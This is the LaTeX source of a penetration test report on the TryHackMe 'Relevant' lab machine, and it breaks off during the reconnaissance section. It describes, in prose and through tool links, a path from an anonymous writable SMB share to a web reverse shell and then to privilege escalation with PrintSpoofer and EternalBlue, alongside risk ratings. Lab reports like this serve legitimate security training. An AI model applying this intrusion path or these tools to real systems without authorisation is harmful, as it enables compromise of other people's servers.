%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% LaTeX Template: Project Modified (v 0.2) by jluo
%
% Original Source: http://www.howtotex.com
% Date: February 2019
% 
% This is a title page template which be used for articles & reports.
% 
% 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\documentclass[12pt]{report}
\usepackage[a4paper]{geometry}
\usepackage[myheadings]{fullpage}
\usepackage{fancyhdr}
\usepackage{lastpage}
\usepackage{graphicx, wrapfig, subcaption, setspace, booktabs}
\usepackage{fourier}
\usepackage[protrusion=true, expansion=true]{microtype}
\usepackage[english]{babel}
\usepackage{sectsty}
\usepackage{url, lipsum}
\usepackage{tgbonum}
\usepackage{hyperref}
\usepackage[table]{xcolor}
\usepackage{listings}
\usepackage{color}
\usepackage[default]{lato}
\usepackage[T1]{fontenc}
\usepackage{titlesec}
\usepackage{multirow}

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{dkgreen}{rgb}{0,.6,0}
\definecolor{dkblue}{rgb}{0,0,.6}
\definecolor{dkyellow}{cmyk}{0,0,.8,.3}
\definecolor{mygray}{rgb}{0.5,0.5,0.5}


\lstset {
	breaklines=true,
	upquote=true
}

\lstdefinestyle{PHP}{
	language = php,
	backgroundcolor=\color{backcolour},
	basicstyle = \small\ttfamily,
	numbers=left,                    
	numbersep=5pt,
	numberstyle=\tiny\color{mygray},
	tabsize = 2,
	upquote=true,
	keywordstyle = \color{dkblue},
	stringstyle = \color{red},
	identifierstyle = \color{dkgreen},
	commentstyle = \color{gray},
	emph = [1]{php},
	emphstyle = [1]\color{black},
	emph = [2]{if,and,or,else},
	emphstyle = [2]\color{dkyellow},
	showspaces=false,
	showstringspaces=false
}

\onehalfspacing
\setcounter{tocdepth}{5}
\setcounter{secnumdepth}{5}

% set chapter format
\titleformat{\chapter}[block]
{\normalfont\huge\lato}{\thechapter}{1em}{\Huge}
\titlespacing*{\chapter}{0pt}{-19pt}{0pt}

% remove red boxes
\hypersetup{%
	pdfborder = {0 0 0}
}

% change the link style you can use 
\newcommand{\link}[1]{{\color{blue}\href{#1}{#1}}}

%-------------------------------------------------------------------------------
% HEADER & FOOTER
%-------------------------------------------------------------------------------
\pagestyle{fancy}
\setlength\headheight{15pt}
\fancyhead[L]{Relevent Penetration Test}
\fancyhead[R]{Vikas Shavi}

%-------------------------------------------------------------------------------
% TITLE PAGE
%-------------------------------------------------------------------------------
\title{Relevent Penetration Test}
\author{Vikas Shavi}

\makeatletter
\renewcommand{\maketitle}{
	\begin{titlepage}
		\begin{center}
			
\includegraphics[width=0.6\textwidth]{img/logo.png}\\
			\large
			\vspace*{1cm}
			{\LARGE\@title}
			\par\vspace{1ex}
			\begin{tabular}[t]{c}
				by \@author
			\end{tabular}
			\vfill
			\par\vspace{1ex}
			Start of testing: May 10, 2023\\
			End of testing: May 15, 2023\\
		\end{center}
		\@thanks
	\end{titlepage}
}
\makeatother

\begin{document}
		\maketitle
		
		% nessuna numerazione
		\pagenumbering{gobble} 
		\tableofcontents
		\newpage
		
		%-------------------------------------------------------------------------------
		% BODY
		%-------------------------------------------------------------------------------
		\pagenumbering{arabic} 
		\chapter{Executive Summary}

In this penetration test the Relevent medium level box
on tryhackme was examined
 for security-relevant weaknesses.
  The kind of testing was black-box,
   this is the kind where no specific
    information about the internals
	 of the system is given.
	  The scope of the assessment is as follows:
\begin{itemize}
	\item Dedicated Web Server: 10.10.212.187
\end{itemize}

Table \ref{tbl:web-sites} contains the overview of examined systems during the penetration test.
\begin{table}[h]
	\centering
	\begin{tabular}{|l|l|}
		\hline 
		\textbf{Services} & \textbf{Hostname}\\
		\hline 
		Website1\label{site1} & http://10.10.212.187/\\
		\hline 
		Website2\label{site2} & http://10.10.212.187:49663/\\
		\hline
		Smbserver\label{smb} & 10.10.212.187:445\\
		\hline
	\end{tabular}
	\caption{Web sites examined during the penetration test}
	\label{tbl:web-sites}
\end{table}

Several vulnerabilities have
been found among the assets of the organization,
some of them pose a significant risk.
%    Figure \ref{fig:vuln-by-type}
%     summarizes all issues by their type across
% 	 all the assets of Company X.
Solutions to remedy the discovered vulnerabilities
are provided together with detailed descriptions
and reproduction steps.
Detailed scan revealed an smbshare and webserver running IIS default
webpage. The smbshare allowed anonymous authentication with
reaad and write permissions and had
a password file in it. This particular shared folder was also
accessible through the website. This gives us the ability 
to execute code on server terminal. Checking the privileges
of the user, he has 'SeImpersonateToken' privilege enabled
which allows him to become Administrator on the machine and
take control of the whole machine. The smb server was also outdated and could
be exploited with the famous 'Eternal Blue' exploit to get
control of the machine. This is a serious vulnerability and needs
to be patched immediately.
% In this part add a short summary of all vulnerabilities in non-technical terms.

% It's also good to mention an estimation of efforts required to resolve the issues.
		\newpage
		
		\chapter{Vulnerability overview}
Table \ref{tbl:vuln overview} depicts all vulnerabilities found during the penetration test. They are categorized by their risk and potential and are differentiated in the categories low, medium, high and critical. 

% Here describe what severities are and what do they mean in context of your report. It's better to keep the color code across all the report.

% Figure \ref{fig:vuln_overview} shows the overview of vulnerabilities grouped by target.

% \begin{figure}[h]
% \centering
% 
\includegraphics[width=\textwidth]{img/vuln_overview.png}
% \caption{Vulnerability overview}
% \label{fig:vuln_overview}
% \end{figure}

% \begin{table}[h]
% 	\begin{tabular}{| l | l | p{7cm} | l | l |}
% 		\hline 
% 		Risk & Asset & Vulnerability & Section & Page\\
% 		\hline 
% 		\cellcolor{codepurple}Critical & Domain 1 & Unauthenticated SQL Injection &  \ref{ss: issue-1} & \pageref{ss: issue-1} \\
% 		\hline 
% 		\cellcolor{red}High & Domain 1 & Stored XSS &  \ref{ss: issue-2}& \pageref{ss: issue-2}\\
% 		\hline 
% 		\cellcolor{orange}Medium & Subdomain 1 & Balance manipulation during order confirmation &  \ref{ss: issue-3} & \pageref{ss: issue-3} \\
% 		\hline 
% 		\cellcolor{yellow}Low & Subdomain 2 & Mail server misconfiguration & \ref{ss: issue-4} & \pageref{ss: issue-4} \\
% 		\hline
% 		\ldots & \ldots & \ldots & \ldots & \ldots \\
% 		\hline 
% 	\end{tabular}
% 	\caption{Vulnerability overview}
% 	\label{tbl:vuln overview}
% \end{table}
\begin{table}[h]
	\begin{tabular}{| l | l | p{8cm} | l | l |}
		\hline 
		Risk & Asset & Vulnerability & Section & Page\\
		\hline 
		\cellcolor{codepurple}Critical & SMB Server & Windows SMB Remote Code Execution &  \ref{ss: issue-1} & \pageref{ss: issue-1} \\
		\hline 
		\cellcolor{orange}Medium & 10.10.212.187:49663 & Sensitive Data Exposure &  \ref{ss: issue-2}& \pageref{ss: issue-2}\\
		\hline 
		\cellcolor{orange}Medium & SMB Share & Broken access control on SMB share &  \ref{ss: issue-3} & \pageref{ss: issue-3} \\
		\hline
		\cellcolor{orange}Medium & Host Device & Excessive Permissions &  \ref{ss: issue-3} & \pageref{ss: issue-3} \\
		\hline
		\cellcolor{yellow}Low & 10.10.212.187 & ASP.NET Version Disclosure & \ref{ss: issue-4} & \pageref{ss: issue-4} \\
		\hline
	\end{tabular}
	\caption{Vulnerability overview}
	\label{tbl:vuln overview}
\end{table}
The risk is calculated on the basis of 
\emph{\textbf{Common 
Vulnerability Scoring System}}(CVSS) Score
[\href{https://nvd.nist.gov/vuln-metrics/cvss#:~:text=The%20Common%20Vulnerability%20Scoring%20System,Base%2C%20Temporal%2C%20and%20Environmental.}{\textcolor{blue}{here}}].
It can be between 0 to
10, with 9-10 being the most severe and termed as critical.
These type of vulnerabilities along with
medium risk ones should be patched imeediately,
otherwise it could lead to huge loss in all sectors. For
example, these type of risks can lead to 
Personally Identifiable Information(PII), 
Sensitive Personally Identifiable Information(SPII) theft,
Denial of Service attacks, ransonware attacks etc. The 
company would have to incur high financial and trust loss
with these kind of attacks.
Next comes the
low risk ones, they doesn't affect the company in destructive way
but should be patched to avoid any issue in future.
		\newpage
		
		\chapter{Methodology}
In this chapter, the tools and methods used to discover
and exploit vulnerabilities are given.
\section{My lab setup}
\begin{itemize}
	\item OS: Kali 2023.2(arm64) running on VMware
	\item Ram: 8GB
	\item connection to the internal network with tryhackme OVPN file.
\end{itemize}
\section{Kali Tools Used}
\begin{itemize}
	\item Reconnaissance: nmap, smbclient,ffuf, gobuster
	\item Exploitation Tools: msfconsole, nikto, msfvenom
	\item Wordlists: directory-list-2.3-medium.txt 
\href{https://github.com/daviddias/node-dirbuster/blob/master/lists/directory-list-2.3-medium.txt}{\textcolor{blue}{here}}
	\item\label{shell} Reverse Shell: shell.aspx
\href{https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.aspx}{\textcolor{blue}{here}}
	\item\label{priv_tool} PrintSpoofer for privilege escalation
\href{https://github.com/itm4n/PrintSpoofer}{\textcolor{blue}{here}}
\end{itemize}
\section{Reconnaissance}
\subsection{Ports scan}
I have used a custom script
(\href{})
which scans for all the open ports and then scans those open
ports for more information which include version, protocol,
service etc.\\
\underline{The script used :}
\begin{center}
	
\includegraphics[width=1.1\textwidth]{img/script.png}
\end{center}
\underline{Scan output:}
% \begin{center}
% 	
\includegraphics[width=1.1\textwidth]{img/default.png}
% \end{center}
%% \begin{center}
%% 	
\includegraphics[width=1.1\textwidth]{img/fade2.png}
%% \end{center}
\begin{center}
